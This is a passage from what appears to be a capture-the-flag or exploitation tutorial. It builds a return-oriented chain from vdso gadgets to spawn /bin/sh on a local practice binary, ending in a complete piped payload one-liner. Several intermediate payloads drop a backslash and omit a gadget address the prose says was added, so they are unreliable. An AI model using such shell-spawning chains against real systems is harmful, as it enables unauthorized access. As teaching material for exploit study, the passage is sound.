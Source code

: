 Where we have our 8-length "/bin/sh\x00" string, 8 junk bytes, then our `argv` array begins with a ptr to "/bin/sh", NULL byte that ends the array, and 8 more junk bytes in order to get to the return address.

Next - where do we return to first? Let's start with setting eax. As noted before, we first jump to the `xor eax, 0x5b` address. Calculating it's address using the base address of `vdso` we found earlier and the offset of the gadget we also found earlier, we get `0xf7ffc8cc`. Then we have those 3 irrelevant pops in the same gadget which won't affect anything, so let's just pop junk into them. After that comes the `ret`, the next address we return to should be the one of `add al, 0x24`, which is `0xf7ffd5d3`. As noted before, we need to return to it 12 times.

Our exploit should look like this now:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7
```

*It is starting to get really ugly, but trust me - it's worth it.

Where do we return to next? we want to set ebx. So let's return to the ROP gadget from earlier, it's address: 0xf7ffd5cd. We pop "/bin/sh"'s address - `0xffffde4c` - to ebx, and Again we have irrelevant pops in the same gadget, let's pop junk to it. 

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB
```

Now we want to jump the the gadget of `edx` and `ecx`. It's address is `0xf7ffc57a`. In `edx` we want to have `NULL`, and in `ecx` a pointer to our `argv` from earlier - `0xffffde5c`. Let's chain that to our exploit:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff
```

Finally we want to jump to a `int 0x80` instruction to initiate the shell! If our calculations are right, we should have our shell right away.

Let's use `printf` to print the output and pipe it to the binary. Also remember to use the `cat` so the shell doesn't close immediatly after executing. If you don't know what I am talking about, watch this video (around minute 10): https://www.youtube.com/watch?v=HSlhY4Uy8SA.

```
(printf '/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08' ; cat) | ./target
```
